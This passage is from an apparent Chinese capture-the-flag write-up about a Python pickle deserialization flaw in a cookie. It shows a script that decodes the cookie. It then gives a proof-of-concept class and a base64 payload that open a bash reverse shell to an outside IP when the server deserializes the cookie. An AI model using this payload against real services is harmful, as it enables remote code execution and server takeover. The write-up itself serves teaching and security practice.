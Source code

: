 [![](https://p3.ssl.qhimg.com/t01ff9d858b4b15f0bf.png)](https://p3.ssl.qhimg.com/t01ff9d858b4b15f0bf.png)

将cookie进行base64解密，发现乱码：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01bb01223cd1e9606e.png)

虽然有乱码，但是发现还是挺像点什么的。再观察题目中的“Pickle”，联想到Python反序列化。这cookie可能就是先经过Pickle序列化然后再进行base64加密的数据。

我们编写如下脚本，将原始的cookie数据给反序列化出来：

```
import pickle
import base64

result = pickle.loads(base64.b64decode(b'gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'))
print(result)
```

得到：

```
`{`'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'`}`
```

看来确实是我们所猜测的。

那我们便可以将我们pickle反序列化的payload进行base64加密，然后放入到cookie中，当服务器再获取我们cookie并进行反序列化时，便会触发payload。

编写如下POC进行反弹shell：

```
import pickle
import base64
class A(object):
    def __reduce__(self):
        return (eval,("__import__('os').system('bash -c \"bash -i &gt;&amp; /dev/tcp/47.xxx.xxx.72/2333 0&gt;&amp;1\"')",))
poc = A()
result = pickle.dumps(poc)
result = base64.b64encode(result)
print(result)
```

得到payload：

```
gASVawAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxPX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvNDcuMTAxLjU3LjcyLzIzMzMgMD4mMSInKZSFlFKULg==
```

将其设置为cookie的值，然后点击Buy：

[![](https://p2.ssl.qhimg.com/t01b2cb0eac9b3e3018.png)](https://p2.ssl.qhimg.com/t01b2cb0eac9b3e3018.png)

此时，攻击机上边收到了目标主机的shell并得到flag：
